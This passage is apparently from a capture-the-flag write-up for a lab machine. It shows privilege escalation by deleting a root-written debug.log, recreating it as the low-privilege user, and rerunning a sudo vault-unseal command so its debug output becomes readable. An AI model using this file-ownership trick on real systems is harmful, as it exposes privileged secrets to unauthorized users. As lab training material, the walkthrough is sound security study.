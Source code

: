 ```markdown
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false

> ls -hal
total 36K
drwxr-x--- 4 askyy askyy 4.0K Feb  5 10:58 .
drwxr-xr-x 3 root  root  4.0K Jan 19 21:33 ..
lrwxrwxrwx 1 askyy askyy    9 Nov  9 21:30 .bash_history -> /dev/null
-rw-r--r-- 1 askyy askyy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 askyy askyy 3.7K Nov  9 21:30 .bashrc
drwx------ 2 askyy askyy 4.0K Oct  9 18:47 .cache
-rw-r--r-- 1 askyy askyy  807 Jan  6  2022 .profile
drwx------ 2 askyy askyy 4.0K Jan 18 10:32 .ssh
-rw------- 1 root  root  1.2K Feb  5 11:00 debug.log
-rw-r----- 1 root  askyy   33 Feb  5 09:01 user.txt
```
Notice the `debug.log` file size has increased from 590 bytes to 1.2 KB, meaning the results have been appended to the existing log.<br>
<br>
Delete the existing `debug.log` file and create a new one with `touch`, so it is owned by `askyy`
```markdown
> rm debug.log 
rm: remove write-protected regular file 'debug.log'? Y

> touch debug.log

> ls -hal
total 32K
drwxr-x--- 4 askyy askyy 4.0K Feb  5 11:02 .
drwxr-xr-x 3 root  root  4.0K Jan 19 21:33 ..
lrwxrwxrwx 1 askyy askyy    9 Nov  9 21:30 .bash_history -> /dev/null
-rw-r--r-- 1 askyy askyy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 askyy askyy 3.7K Nov  9 21:30 .bashrc
drwx------ 2 askyy askyy 4.0K Oct  9 18:47 .cache
-rw-r--r-- 1 askyy askyy  807 Jan  6  2022 .profile
drwx------ 2 askyy askyy 4.0K Jan 18 10:32 .ssh
-rw-rw-r-- 1 askyy askyy    0 Feb  5 11:02 debug.log
-rw-r----- 1 root  askyy   33 Feb  5 09:01 user.txt
```
Unseal again, this time we are able to read the file `debug log` since it is appended to the existing one (owned by `askyy`).
```markdown
> sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false

> ls -hal
total 36K
drwxr-x--- 4 askyy askyy 4.0K Feb  5 11:02 .
drwxr-xr-x 3 root  root  4.0K Jan 19 21:33 ..
lrwxrwxrwx 1 askyy askyy    9 Nov  9 21:30 .bash_history -> /dev/null
-rw-r--r-- 1 askyy askyy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 askyy askyy 3.7K Nov  9 21:30 .bashrc
drwx------ 2 askyy askyy 4.0K Oct  9 18:47 .cache
-rw-r--r-- 1 askyy askyy  807 Jan  6  2022 .profile
drwx------ 2 askyy askyy 4.0K Jan 18 10:32 .ssh
-rw-rw-r-- 1 askyy askyy  590 Feb  5 11:02 debug.log
```